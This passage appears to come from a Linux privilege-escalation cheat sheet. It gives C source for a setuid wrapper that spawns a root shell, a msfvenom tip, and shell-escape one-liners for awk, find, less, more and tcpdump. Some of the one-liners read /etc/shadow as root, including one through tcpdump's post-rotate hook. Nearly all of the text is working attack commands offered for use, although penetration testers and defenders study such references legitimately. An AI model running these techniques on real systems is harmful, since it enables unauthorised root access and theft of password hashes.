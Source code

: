 ```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
​
int main( int argc, char *argv[] )
{
    setreuid(0, 0);
    execve("/bin/sh", NULL, NULL);
}
```

You could also just generate a binary using msfvenom if desired, but this will require the `PrependSetuid=True` if spawning a `/bin/bash` shell.

The following standard Unix tools have many easy ways to perform arbitrary code execution if you find yourself in a situation enabling you to execute them as a privileged user.

#### awk {#awk}

```text
awk 'BEGIN {system("/bin/bash")}'
```

#### find {#find}

```text
find / -exec bash -i \;
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
```

#### less {#less}

From less you can go into vi, and then into a shell.

```text
less /etc/shadow
v
:shell
```

#### more {#more}

You need to run more on a file that is bigger than your screen.

```text
more /home/pelle/myfile
!/bin/bash
```

#### tcpdump {#tcpdump}

```text
echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

